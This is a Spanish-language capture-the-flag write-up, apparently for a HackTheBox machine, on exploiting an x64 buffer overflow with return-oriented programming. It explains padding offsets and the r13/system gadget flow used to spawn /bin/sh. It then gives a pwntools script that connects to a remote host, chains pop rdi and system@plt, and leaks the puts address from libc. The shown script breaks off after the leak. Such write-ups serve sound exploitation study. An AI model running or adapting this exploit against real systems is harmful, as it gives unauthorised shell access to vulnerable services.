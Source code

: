 Todas las direcciones de memoria se han buscado con el comando 
```bash
 objdump -D ./myapp | grep "system" 
```
 o para la direccion de test con el
comando 
```bash
 objdump -D ./myapp | grep "test" 
```
. Estos comandos se puenden usar porque le PIE esta desabilitado.

En este caso, que hace el script. El script nos permite finalmente ejecutar el applicativo con un flujo distincto para
ganar accesso al systema. El flujo es el siguiente.

1. Lanzamos el binario
1. Introducimos 112 A (120 del offset menos los 8 bytes del comando "/bin/sh\x00") => 7 caracteres + 1 nullByte.
1. Introducimos el commando 
```bash
 /bin/sh\x00 
```

1. Apuntamos a la direccion del gadget
1. Sobre escribimos el
    - r13 con la direccion de system
    - r14 como nullo
    - r15 como nullo
1. Introducimos la direccion de la funccion test


### Buffer Overflow x64 usando Memory leak {-}

```python
#!/usr/bin/python3

# Libc leaked

from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)
# p = gdb.debug('./myapp', 'b *main')

junk = ("A"*120).encode()

# gef➤  ropper --search "pop rdi"
# 0x000000000040120b: pop rdi; ret; 

pop_rdi = p64(0x40120b)

# objdump -D ./myapp | grep "system"
# 0000000000401040 <system@plt>:
#   401040:       ff 25 da 2f 00 00       jmpq   *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>
#   40116e:       e8 cd fe ff ff          callq  401040 <system@plt>

system_plt = p64(0x401040)
main = p64(0x40115f)
got_puts = p64(0x404018)

payload = junk + pop_rdi + got_puts + system_plt + main # system("whoami")

print(p.recvline())
p.sendline(payload)
leak_puts = u64(p.recvline().strip()[7:-11].ljust(8, "\x00".encode()))
```